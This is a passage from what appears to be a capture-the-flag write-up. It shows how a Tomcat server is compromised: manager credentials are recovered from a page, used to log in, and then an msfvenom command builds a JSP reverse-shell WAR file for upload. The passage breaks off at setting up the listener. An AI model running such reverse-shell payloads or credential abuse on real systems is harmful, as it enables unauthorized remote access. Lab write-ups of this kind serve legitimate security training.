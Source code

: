 We get back a page that contains the tomcat manager’s credentials!

```text
username="admin" password="3@g01PdhB!"
```

Log into the Tomcat Manager Application using the above credentials.

![](../images/max/1262/1*77hUUHnE60erT02glTZJbA.png)

We’re in! Now all we have to do is generate a malicious war file and upload it through the manager.

## Initial Foothold <a id="a683"></a>

Generate a war file that contains a reverse shell using msfvenom.

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.12 LPORT=1234 -f war > shell.war
```

Upload the file on the Tomcat Application Manager and deploy it.

![](../images/max/779/1*XjAvMJ1rojZEkke9XBXTiw.png)

Set up a listener on the target machine.
